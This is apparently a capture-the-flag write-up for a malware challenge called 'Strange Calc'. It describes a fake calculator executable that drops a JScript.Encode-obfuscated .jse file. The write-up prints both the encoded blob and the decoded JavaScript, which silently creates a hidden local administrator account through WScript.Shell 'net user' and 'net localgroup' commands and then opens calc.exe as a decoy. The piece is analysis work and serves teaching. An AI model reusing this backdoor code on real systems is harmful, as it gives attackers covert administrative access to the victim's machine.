 # Strange Calc

**Description:**

<small>Author: @JohnHammond</small><br><br>I got this new calculator app from my friend! But it's really weird, for some  reason it needs admin permissions to run?? <br><br> <b>NOTE: Archive password is <code>strange_calc</code></b> <br><br> <b>Download the file(s) below.</b><br>


**Category:** Malware

**Difficulty:** medium

**File:** [calc.zip](calc.zip)

## Solution

First, I extracted the contents of the zip file (calc.zip) using the provided password strange_calc. This produced an executable file named calc.exe.

Running the file in a Windows virtual machine, I observed that it created a .jse file. This file seemed to contain encoded data that looked like
```
#@~^cQMAAA==W!x^DkKxPm`(b	7l.P1'EEBN'( /aVkDcE-	J*iWW.c7l.Px!p+@![cV+ULDtI+3Q*	-mD,0'9$DRM+2VmmncJ7-kQu'/_f&L~EB*ir0cWckUNar6`E8okUE*'x'Zk-0 bx9+6}0vE+	NE#{'xT-u0{x'rJ#1GUYbx!+I\C.,ox`6 m4l./KN+)Ov!bO2+*[2i6WDv\m.P4'qi4@!W ^+xTOtpt_{*b	b0vtQ&@*x6Rs+	LY4#8.l3I-mD~k{c6R^4lMZW9+zO`4#R&y#'2~L{c0cmtm./W9+zYctQq*Of *'v2~Vxv0R^4mD/W9nzYc4_y#O2 *'v2~s'v0 ^4lD;GNbYv4Q&*O2 b[fpmQ'UODbxL 6DWh/4l.ZK[`cb@!@! #-`N@*@*W#bib0c43 @!6 VxoD4RF*m3'jY.r	o 0MG:;tC.;WNncv`%[8X*@!@!W#-`3@*@*yb#pkW`4_f@!6RVUoDtO8b^_{?DDrxL 6DG:;4lMZG[``cVL&b@!@!*us*8)D+DEMUP1RdE(/O.bxovT~T#87C.Ps'r4norU,v*c,R-	M1o5b,	JIRf`"1w`]Bvub,;^qR&{2S.Of0/v(,[@!(c&"zR!I~qKM-U|'xnx9Ei7l.~	'lch*i-lM~K',rxYP!/.PdW^l^b[hbxkkODmYWM~E_	_rP&l[[r~ExOP^W^C^oDG;aPCNsr	kdDDmYWM/,JW1lsb9:rUb/YMCYKDPJC[Nr~rmCV^ 6nJYI\mD~2{x+A~zmOk7nor8N+1Y`EU^DbwORUtns^B#pWWM`\m.~;{!p;@!W sxLY4RFp;QQ*	w ]!xcW]5Y~TB0mV/#)2R"EU`K$+DBF~6CVk+#p4RABAA==^#~@
```

After some research, I discovered that the .jse file was encoded using JScript.Encode. To decode this, I used a tool called scrdec18.

The decoding gave the following JavaScript code:
```javascript
function a(b){var c="",d=b.split("\n");for(var e=0;e<d.length;e++){var f=d[e].replace(/^\s+|\s+$/g,'');if(f.indexOf("begin")===0||f.indexOf("end")===0||f==="")continue;var g=(f.charCodeAt(0)-32)&63;for(var h=1;h<f.length;h+=4){if(h+3>=f.length)break;var i=(f.charCodeAt(h)-32)&63,j=(f.charCodeAt(h+1)-32)&63,k=(f.charCodeAt(h+2)-32)&63,l=(f.charCodeAt(h+3)-32)&63;c+=String.fromCharCode((i<<2)|(j>>4));if(h+2<f.length-1)c+=String.fromCharCode(((j&15)<<4)|(k>>2));if(h+3<f.length-1)c+=String.fromCharCode(((k&3)<<6)|l)}}return c.substring(0,g)}var m="begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";var n=a(m);var o=["net user LocalAdministrator "+n+" /add","net localgroup administrators LocalAdministrator /add","calc.exe"];var p=new ActiveXObject('WScript.Shell');for(var q=0;q<o.length-1;q++){p.Run(o[q],0,false)}p.Run(o[2],1,false);
```

After formatting the code, I noticed an interesting part that looked like UUencoded data:
```javascript
var m="begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";
```

Decoded UUencoded string gave the flag.  
![alt text](image.png)
